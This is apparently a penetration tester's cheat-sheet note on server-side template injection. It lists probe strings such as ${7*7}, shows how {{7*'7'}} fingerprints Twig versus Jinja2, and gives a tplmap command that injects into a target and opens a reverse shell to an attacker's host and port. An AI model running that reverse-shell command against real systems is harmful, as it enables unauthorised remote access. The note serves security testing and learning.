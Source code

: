 # Server Side Template Injection

Inject strings that get interpreted as part of the template language a website is using.

## Manual

A First step is to look for vulnerable fields with some standard strings, to evaluate weather the target replaces them with the expected result:
* `${7*7}`
* `${{7*7}}`
If an injection point is found, the type of the template system has to be found. Depending on the type answers to default strings vary and different strings have to be used to exploit them.

## Fingerprints

Teststring: `{{7*'7'}}`
Result:
* Twig: `49`
* Jinja2: `7777777`
* None:  `{{7*'7'}}`


## Tplmap

Basically like sqlmap for sql injections or commix for command injections.

```cheat tplmap example command
python tplmap.py -u 'http://<rhost>:<rport>' -X POST -d '<post data>, mark injection point with *' -c '<cookies>' --reverse-shell <lhost> <lport>
```

## Links

* https://portswigger.net/blog/server-side-template-injection

tags: #ssti #tplmap #jinja2 #twig 
